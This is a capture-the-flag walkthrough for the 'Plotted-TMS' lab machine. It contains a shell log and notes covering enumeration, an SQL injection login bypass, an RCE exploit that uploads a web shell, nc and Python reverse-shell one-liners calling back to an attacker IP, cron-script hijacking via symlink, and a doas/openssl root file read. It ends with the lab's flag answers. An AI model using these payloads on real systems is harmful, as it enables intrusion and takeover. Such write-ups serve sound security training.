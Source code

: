 # Plotted-TMS - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.171.235

gobuster dir -u http://10.10.171.235 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,json,docx,pdf,zip,sh,pl,xml,sql -t 50

gobuster dir -u http://10.10.171.235:445 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,json,docx,pdf,zip,sh,pl,xml,sql -t 50

#for recursive scanning
feroxbuster -u http://10.10.171.235:445/management -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent

#modify exploit for TOMS v1.0 rce
vim 50221.py

python2 50221.py
#run exploit
#this uploads web shell

nc -nvlp 4444
#execute reverse-shell command on webshell
#this gives us shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

id
#www-data

#check cronjobs
cat /etc/crontab

#check script run as plot_admin
cat /var/www/scripts/backup.sh

ls -la /home/plot_admin/tms_backup
#permission denied

ls -la /var/www/scripts
#we have write access to directory

cd /var/www/scripts

#create another script
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.31.212 4445 >/tmp/f" > evil.sh

chmod +x evil.sh

#symbolic link evil.sh to backup.sh
ln -sf evil.sh backup.sh

#setup listener
nc -nvlp 4445

#after a minute, the cron job runs
#we get reverse shell

cd /home/plot_admin
#get user flag

#run linpeas to check for privesc

#check doas.conf
cat /etc/doas.conf
#we can run openssl as root

#get exploit from GTFObins
#file read
LFILE="/root/root.txt"

doas -u root openssl enc -in "$LFILE"
```

* Open ports & services:

  * 22 - ssh - OpenSSH 8.2p1
  * 80 - http - Apache httpd 2.4.41
  * 445 - http - Apache httpd 2.4.41

* The webpage on port 80 is the default Apache landing page; we can check for hidden directories.

* Now, we are able to find /admin directory, which contains 'id_rsa' file - this leads us to base64 text.

* When decoded, it shows that this was a red herring; we will have to continue our enumeration process.

* We find other directories - /shadow and /passwd - but this also contains a similar base64 that tells us to enumerate further.

* Meanwhile, we can check the webpage on port 445 - this also happens to be a default Apache page.

* We can enumerate the webpage on port 445 for any hidden directories.

* Now, we find /management on port 445 - this leads us to another page.

* We can enumerate this directory recursively using ```feroxbuster```; this gives us some interesting directories inside /management:

  * /about
  * /uploads
  * /pages
  * /admin
  * /assets
  * /database
  * /plugins
  * /classes

* Now, /database contains a .sql file, which contains password hashes for 2 users 'admin' and 'jsmith'.

* Both these MD5 hashes can be cracked, giving us the creds admin:admin123 and jsmith:jsmith123

* We can use both these creds to login at /admin, but it does not work.

* We can attempt injection to bypass login; SQL injection works and using the payload ```' or 1=1 limit 1 -- -+```, we are able to login.

* Now, we have access to the management system dashboard as admin user - we have to look for ways to get reverse shell.

* On searching for 'toms v1.0 exploit', we get RCE exploits for the same.

* Now, we are unable to receive reverse shell through exploit; however it does upload 'evil.php' webshell.

* So we can navigate to the link given by the exploit - webshell is uploaded in /management/uploads/evil.php

* In webshell, we can run commands like '/evil.php?cmd=id' - this shows we are user 'www-data'.

* With the help of the following reverse-shell one-liner, we get reverse shell on our listener:

```python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.14.31.212",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'```

* Now, checking the cronjobs running on the machine, we can see that it is running a backup script every minute as 'plot_admin'.

* However, we are unable to edit the script contents, so we can check for what it is doing.

* Now, we do not have write access to the script, but we have write access to directory.

* We can create another script in the same directory, and create a soft link to backup.sh, so that our evil script runs.

* Now, we have shell as plot_admin user, we can get user flag now.

* We can run ```linpeas.sh``` to check for privesc.

* Now, linpeas checks 'doas.conf' and it shows that we can run openssl as root without password.

* We can check for exploit from GTFObins - it has a file read exploit for ```openssl```, so we can use that to read root flag.

```markdown
1. What is user.txt? - 77927510d5edacea1f9e86602f1fbadb

2. What is root.txt? - 53f85e2da3e874426fa059040a9bdcab
```
